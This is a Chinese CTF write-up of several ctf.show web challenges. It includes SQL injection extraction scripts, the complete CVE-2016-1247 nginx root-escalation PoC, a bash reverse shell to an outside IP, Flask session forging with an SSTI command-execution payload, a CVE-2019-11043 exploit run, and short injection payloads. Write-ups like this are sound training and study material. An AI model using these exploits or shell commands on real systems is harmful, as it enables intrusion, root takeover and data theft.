





## 签到

### #SQL注入

一个登录界面，先常规扫一下目录

```php
[14:40:54] Scanning:
[14:41:21] 200 -     0B - /db.php
[14:41:29] 200 -    3KB - /login.php
[14:41:39] 200 -    3KB - /register.php
[14:41:44] 200 -   120B - /user.php
[14:41:47] 200 -    3KB - /www.zip
```

把备份文件下下来看看

```php
//login.php
<?php
function check($arr){
if(preg_match("/load|and|or|\||\&|select|union|\'|=| |\\\|,|sleep|ascii/i",$arr)){
			echo "<script>alert('bad hacker!')</script>";
           die();   
       }
else{
	return true;
}
}
session_start();
include('db.php');
if(isset($_POST['e'])&&isset($_POST['p']))
{
$e=$_POST['e'];
$p=$_POST['p'];
$sql ="select username from test1 where email='$e' and password='$p'";
if(check($e)&&check($p)){
$result=mysqli_query($con,$sql);
$row = mysqli_fetch_assoc($result);
    if($row){ 
		$_SESSION['u']=$row['username'];
		header('location:user.php');
    }
	else {
		echo "<script>alert('Wrong username or password')</script>";
	}
}
}
 
?>
```

```php
//register.php
<?php
function check($arr){
if(preg_match("/load|and|\||\&| |\\\|sleep|ascii|if/i",$arr)){
			echo "<script>alert('bad hacker!')</script>";
           die();   
       }
else{
	return true;
}
}

include('db.php');
if(isset($_POST['e'])&&isset($_POST['u'])&&isset($_POST['p']))
{
$e=$_POST['e'];
$u=$_POST['u'];
$p=$_POST['p'];
$sql =
"insert into test1
set email = '$e', 
username = '$u',
password = '$p'
";
if(check($e)&&check($u)&&check($p)){
if(mysqli_query($con, $sql))
{
header('location:login.php');
}
}
}
 
?>
```

```php
//user.php
<?php
include('db.php');
session_start();
error_reporting(0);
if($_SESSION['u']){
$username=$_SESSION['u'];

if (is_numeric($username))
	{	
		if(strlen($username)>10) {
			$username=substr($username,0,10);
		}
		echo "Hello $username,there's nothing here but dog food!";
	}
	else{
		echo "<script>alert('The username can only be a number.How did you get here?go out!!!');location.href='login.php';</script>";
}
}
else{
		echo "<script>alert('Login first!');location.href='login.php';</script>";
}
?>
```

登录界面的过滤挺多的，但是在注册界面的过滤就比较少了，从user.php中可以看到唯一的回显位就是username了，并且要求username只能为数字，我们用hex函数绕过就行了，并且这里需要两层hex编码，不然会出现字母，然后切片去绕过长度限制就行了

关注到注册界面的插入语句

```php
$sql =
"insert into test1
set email = '$e', 
username = '$u',
password = '$p'
";
```

这里的话可以直接在email中插入username的执行语句，然后把后面的注释掉就行

payload

```php
"insert into test1
set email = '1',username=hex(hex(substr((select/**/database()),1,1))),/*', 
username = '*/#',
password = '1'
"
```

这里的话因为是多行语句，后面的password是不会被注释的

我们测试一下

```python
import requests
import re

url1 = "http://aecbccb7-cd79-483d-9aad-270fcad87a25.challenge.ctf.show/register.php"
url2 = "http://aecbccb7-cd79-483d-9aad-270fcad87a25.challenge.ctf.show/login.php"
target = ""


data1 = {
    "e": "100@2" + f"',username=hex(hex(substr((select/**/database()),1,1))),/*",
    "u": "*/#",
    "p": 100
}
#r1 = requests.post(url1, data=data1)
data2 = {
    "e" : "100@2",
    "p" : 100
}
r2 = requests.post(url2, data=data2)
match = re.search(r"Hello (\d+)", r2.text)
print(bytes.fromhex(bytes.fromhex(match.group(1)).decode()).decode())
#w
```

提取字符串的部分就不说了，自己可以去搜一下

poc

```python
import requests
import re

url1 = "http://aecbccb7-cd79-483d-9aad-270fcad87a25.challenge.ctf.show/register.php"
url2 = "http://aecbccb7-cd79-483d-9aad-270fcad87a25.challenge.ctf.show/login.php"
target = ""

for i in range(1,50):
    payload = f"',username=hex(hex(substr((select/**/flag/**/from/**/flag),{i},1))),/*"
    data1 = {
        "e": str(i) + payload,
        "u": "*/#",
        "p": i
    }
    r1 = requests.post(url1, data=data1)
    data2 = {
        "e" : i,
        "p" : i
    }
    r2 = requests.post(url2, data=data2)
    match = re.search(r"Hello (\d+)", r2.text)
    target += bytes.fromhex(bytes.fromhex(match.group(1)).decode()).decode()
    print(target)
```

## 出题人不想跟你说话.jpg

### #CVE-2016-1247



意思很明显了，连马，密码是cai，传参试一下就知道了



看禁用函数没看到system被禁用，本来想直接RCE读flag的，但是貌似有权限问题，算了，蚁剑连上去看看吧

查看suid文件没看到什么可以拿来提权的，结合题目提示每两分钟触发一次，那可能是有个定时任务

```
(www-data:/var/www/html) $ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user    command
17 *    * * *    root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/1 *    * * *    root    /usr/sbin/logrotate -vf /etc/logrotate.d/nginx
```

看到一个自定义任务每分钟触发一次

```php
*/1 *    * * *    root    /usr/sbin/logrotate -vf /etc/logrotate.d/nginx
```

以 root 用户身份执行 `logrotate` 命令，对 `/etc/logrotate.d/nginx` 配置文件强制（`-f`）执行 Nginx 的日志轮转，并显示详细信息（`-v`）。

有一个CVE-2016-1247https://nvd.nist.gov/vuln/detail/cve-2016-1247，一个利用nginx日志进行提权的漏洞

看看nginx的版本

```php
(www-data:/var/www/html) $ nginx -v
nginx version: nginx/1.4.6 (Ubuntu)
```

在漏洞版本中，那直接拿poc打就行了

在vps中创建一个nginx-root.sh文件，记得是在Linux下，Windows下貌似有问题

```sh
------------[ nginxed-root.sh ]--------------
 
#!/bin/bash
#
# Nginx (Debian-based distros) - Root Privilege Escalation PoC Exploit
# nginxed-root.sh (ver. 1.0)
#
# CVE-2016-1247
#
# Discovered and coded by:
#
# Dawid Golunski
# dawid[at]legalhackers.com
#
# https://legalhackers.com
#
# Follow https://twitter.com/dawid_golunski for updates on this advisory.
#
# ---
# This PoC exploit allows local attackers on Debian-based systems (Debian, Ubuntu
# etc.) to escalate their privileges from nginx web server user (www-data) to root 
# through unsafe error log handling.
#
# The exploit waits for Nginx server to be restarted or receive a USR1 signal.
# On Debian-based systems the USR1 signal is sent by logrotate (/etc/logrotate.d/nginx)
# script which is called daily by the cron.daily on default installations.
# The restart should take place at 6:25am which is when cron.daily executes.
# Attackers can therefore get a root shell automatically in 24h at most without any admin
# interaction just by letting the exploit run till 6:25am assuming that daily logrotation 
# has been configured. 
#
#
# Exploit usage:
# ./nginxed-root.sh path_to_nginx_error.log 
#
# To trigger logrotation for testing the exploit, you can run the following command:
#
# /usr/sbin/logrotate -vf /etc/logrotate.d/nginx
#
# See the full advisory for details at:
# https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
#
# Video PoC:
# https://legalhackers.com/videos/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
#
#
# Disclaimer:
# For testing purposes only. Do no harm.
#
 
BACKDOORSH="/bin/bash"
BACKDOORPATH="/tmp/nginxrootsh"
PRIVESCLIB="/tmp/privesclib.so"
PRIVESCSRC="/tmp/privesclib.c"
SUIDBIN="/usr/bin/sudo"
 
function cleanexit {
    # Cleanup 
    echo -e "\n[+] Cleaning up..."
    rm -f $PRIVESCSRC
    rm -f $PRIVESCLIB
    rm -f $ERRORLOG
    touch $ERRORLOG
    if [ -f /etc/ld.so.preload ]; then
        echo -n > /etc/ld.so.preload
    fi
    echo -e "\n[+] Job done. Exiting with code $1 \n"
    exit $1
}
 
function ctrl_c() {
        echo -e "\n[+] Ctrl+C pressed"
    cleanexit 0
}
 
#intro 
 
cat <<_eascii_
 _______________________________
< Is your server (N)jinxed ? ;o >
 -------------------------------
           \ 
            \          __---__
                    _-       /--______
               __--( /     \ )XXXXXXXXXXX\v.  
             .-XXX(   O   O  )XXXXXXXXXXXXXXX- 
            /XXX(       U     )        XXXXXXX\ 
          /XXXXX(              )--_  XXXXXXXXXXX\ 
         /XXXXX/ (      O     )   XXXXXX   \XXXXX\ 
         XXXXX/   /            XXXXXX   \__ \XXXXX
         XXXXXX__/          XXXXXX         \__---->
 ---___  XXX__/          XXXXXX      \__         /
   \-  --__/   ___/\  XXXXXX            /  ___--/=
    \-\    ___/    XXXXXX              '--- XXXXXX
       \-\/XXX\ XXXXXX                      /XXXXX
         \XXXXXXXXX   \                    /XXXXX/
          \XXXXXX      >                 _/XXXXX/
            \XXXXX--__/              __-- XXXX/
             -XXXXXXXX---------------  XXXXXX-
                \XXXXXXXXXXXXXXXXXXXXXXXXXX/
                  ""VXXXXXXXXXXXXXXXXXXV""
_eascii_
 
echo -e "\033[94m \nNginx (Debian-based distros) - Root Privilege Escalation PoC Exploit (CVE-2016-1247) \nnginxed-root.sh (ver. 1.0)\n"
echo -e "Discovered and coded by: \n\nDawid Golunski \nhttps://legalhackers.com \033[0m"
 
# Args
if [ $# -lt 1 ]; then
    echo -e "\n[!] Exploit usage: \n\n$0 path_to_error.log \n"
    echo -e "It seems that this server uses: `ps aux | grep nginx | awk -F'log-error=' '{ print $2 }' | cut -d' ' -f1 | grep '/'`\n"
    exit 3
fi
 
# Priv check
 
echo -e "\n[+] Starting the exploit as: \n\033[94m`id`\033[0m"
id | grep -q www-data
if [ $? -ne 0 ]; then
    echo -e "\n[!] You need to execute the exploit as www-data user! Exiting.\n"
    exit 3
fi
 
# Set target paths
ERRORLOG="$1"
if [ ! -f $ERRORLOG ]; then
    echo -e "\n[!] The specified Nginx error log ($ERRORLOG) doesn't exist. Try again.\n"
    exit 3
fi
 
# [ Exploitation ]
 
trap ctrl_c INT
# Compile privesc preload library
echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
cat <<_solibeof_>$PRIVESCSRC
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
#include <dlfcn.h>
       #include <sys/types.h>
       #include <sys/stat.h>
       #include <fcntl.h>
uid_t geteuid(void) {
    static uid_t  (*old_geteuid)();
    old_geteuid = dlsym(RTLD_NEXT, "geteuid");
    if ( old_geteuid() == 0 ) {
        chown("$BACKDOORPATH", 0, 0);
        chmod("$BACKDOORPATH", 04777);
        unlink("/etc/ld.so.preload");
    }
    return old_geteuid();
}
_solibeof_
/bin/bash -c "gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl"
if [ $? -ne 0 ]; then
    echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
    cleanexit 2;
fi
 
 
# Prepare backdoor shell
cp $BACKDOORSH $BACKDOORPATH
echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"
 
# Safety check
if [ -f /etc/ld.so.preload ]; then
    echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
    exit 2
fi
 
# Symlink the log file
rm -f $ERRORLOG && ln -s /etc/ld.so.preload $ERRORLOG
if [ $? -ne 0 ]; then
    echo -e "\n[!] Couldn't remove the $ERRORLOG file or create a symlink."
    cleanexit 3
fi
echo -e "\n[+] The server appears to be \033[94m(N)jinxed\033[0m (writable logdir) ! :) Symlink created at: \n`ls -l $ERRORLOG`"
 
# Make sure the nginx access.log contains at least 1 line for the logrotation to get triggered
curl http://localhost/ >/dev/null 2>/dev/null
# Wait for Nginx to re-open the logs/USR1 signal after the logrotation (if daily 
# rotation is enable in logrotate config for nginx, this should happen within 24h at 6:25am)
echo -ne "\n[+] Waiting for Nginx service to be restarted (-USR1) by logrotate called from cron.daily at 6:25am..."
while :; do 
    sleep 1
    if [ -f /etc/ld.so.preload ]; then
        echo $PRIVESCLIB > /etc/ld.so.preload
        rm -f $ERRORLOG
        break;
    fi
done
 
# /etc/ld.so.preload should be owned by www-data user at this point
# Inject the privesc.so shared library to escalate privileges
echo $PRIVESCLIB > /etc/ld.so.preload
echo -e "\n[+] Nginx restarted. The /etc/ld.so.preload file got created with web server privileges: \n`ls -l /etc/ld.so.preload`"
echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"
chmod 755 /etc/ld.so.preload
 
# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
sudo 2>/dev/null >/dev/null
 
# Check for the rootshell
ls -l $BACKDOORPATH
ls -l $BACKDOORPATH | grep rws | grep -q root
if [ $? -eq 0 ]; then 
    echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
    echo -e "\n\033[94mThe server is (N)jinxed ! ;) Got root via Nginx!\033[0m"
else
    echo -e "\n[!] Failed to get root"
    cleanexit 2
fi
 
rm -f $ERRORLOG
echo > $ERRORLOG
 
# Use the rootshell to perform cleanup that requires root privilges
$BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
# Reset the logging to error.log
$BACKDOORPATH -p -c "kill -USR1 `pidof -s nginx`"
 
# Execute the rootshell
echo -e "\n[+] Spawning the rootshell $BACKDOORPATH now! \n"
$BACKDOORPATH -p -i
 
# Job done.
cleanexit 0
 
---------------------------------------------------
```

编写好后上传



弹一下shell，因为蚁剑搞不了

```php
nc -lvvp 2333
bash -i >& /dev/tcp/124.223.25.186/2333 0>&1
```



然后我们运行poc

```php
chmod 777 nginx-root.sh
./nginx-root.sh
./nginx-root.sh /var/log/nginx/error.log
```

然后等漏洞触发就行了

## 蓝瘦

### #session伪造+ssti

源码中有提示

```html
<!-- param: ctfshow -->
<!-- key: ican -->
```

随便传入登录后拿到一个session，拿去解密一下

```bash
root@VM-16-12-ubuntu:/opt# flask-unsign --decode --cookie 'eyJ1c2VybmFtZSI6IjEifQ.aFPB_g.bV4sOfL5y_NOx7N4ecN_UIDgYjg'
{'username': '1'}
```

拿刚刚的key伪造admin

```bash
{'username': 'admin'}
root@VM-16-12-ubuntu:/opt# flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'ican'
eyJ1c2VybmFtZSI6ImFkbWluIn0.aFPDPA.2HMyFMZ43QWEj7QrA9KrUsrpGT4
```

传入后需要传入一个ctfshow参数，测试发现是ssti

```php
?ctfshow={{"".__class__.__base__.__subclasses__()[127].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}
ctf
?ctfshow={{"".__class__.__base__.__subclasses__()[127].__init__.__globals__.__builtins__['eval']("__import__('os').popen('env').read()")}}
flag在环境变量中
```

## 一览无余

### #CVE-2019-11043

啥都没有，找找CVE吧，找到PHP/7.1.33的CVE-2019-11043，我复现文章在https://wanth3f1ag.top/2025/03/24/CVE-2019-11043%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/

直接上漏洞利用工具phuip-fpizdam一把梭

```bash
root@VM-16-12-ubuntu:/opt/漏洞工具/phuip-fpizdam# go run . "http://d6add9ec-0044-4b0b-96c9-e5a379251c38.challenge.ctf.show/index.php"
2025/06/19 16:13:06 Base status code is 200
2025/06/19 16:13:06 Status code 502 for qsl=1765, adding as a candidate
2025/06/19 16:13:06 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2025/06/19 16:13:11 Attack params found: --qsl 1755 --pisos 189 --skip-detect
2025/06/19 16:13:11 Trying to set "session.auto_start=0"...
2025/06/19 16:13:11 Detect() returned attack params: --qsl 1755 --pisos 189 --skip-detect <-- REMEMBER THIS
2025/06/19 16:13:11 Performing attack using php.ini settings...
2025/06/19 16:13:12 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2025/06/19 16:13:12 Trying to cleanup /tmp/a...
2025/06/19 16:13:12 Done!
```

然后我们传入参数a执行命令

```bash
?a=id
```

注意，因为php-fpm会启动多个子进程，在访问/index.php?a=id时需要多访问几次，以访问到被污染的进程。



然后读flag就行

```bash
?a=cat fl0gHe1e.txt
```

## 登陆就有flag

这里的话利用**空异或0会查到所有非数字开头的记录**，并且这里长度有限制

payload

```php
'^0#   '^''#   '<>1#   '<1#   '&0#   '<<0#   '>>0#   '&''#   '/9#
```

## 签退

### #变量覆盖

绕过或者变量覆盖

```php
?S=a;system('whoami');
?S=a=system('whoami');
```
